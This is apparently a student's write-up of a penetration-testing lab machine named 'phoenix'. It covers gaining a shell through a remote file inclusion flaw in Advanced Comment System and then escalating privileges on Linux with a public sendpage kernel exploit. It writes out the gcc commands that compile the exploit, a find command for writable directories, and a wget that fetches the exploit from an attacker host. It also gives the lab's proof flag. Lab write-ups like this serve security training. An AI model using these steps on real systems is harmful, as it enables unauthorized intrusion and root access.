

uname -a shows kernel version
kernel is vulnerable to this exploit: https://www.exploit-db.com/exploits/9545/
downloaded code and compiled with command:
gcc -Wall -o linux-sendpage 9545.c
Trying to transfer to the file.
ftp won't work. no route to host or can't write files
phoenix doesn't know tftp
can't powershell since it is linux
tried creating a file with vi or nano but freezes
followed this excellent guide for using the FIND command to find writeable directories:
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
find /-perm -222 -type d 2>/dev/null
was able to use wget inside /tmp:
wget http://10.11.0.187/phoenix
ended up not working--> error while loading shared libraries: requires glibc 2.5 or later dynamic linker
Solution: (no space between comma and --hash-style)
gcc -m32 -Wl,--hash-style=both 9545.c -o phoenix

Proof:

cat proof.txt
f56a325ef00d4553a4046b7eacc5d667
I was stuck on this one for three days. I came out learning a lot more about Linux.
- Used a popular enumeration tool which is covered in the videos/pdf to find something that "might be interesting."
- Vulnerability I exploited is common and is covered in the videos/pdf. (RFI)
- Looked at source code and noticed ACS. Googled to find out what ACS is... = Advanced Comment System. Googled for vulnerability. Found it and exploited RFI on its admin.php page.
- I didn't use nc to send the shell to my Kali machine. You can use Linux's own shell with the right command that I found via Google.
- With low-priv shell, used uname -a and found easily via Google an exploit which works.
- Compile on Kali and use the correct gcc compile options found if you Google the error message. It's also on the forum.
- Use this excellent guide to help "find" a place where you will be able to download the code from your Kali machine: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
This was only my third box and took me probably around 16 hours or so. Felt dumb but kept at it.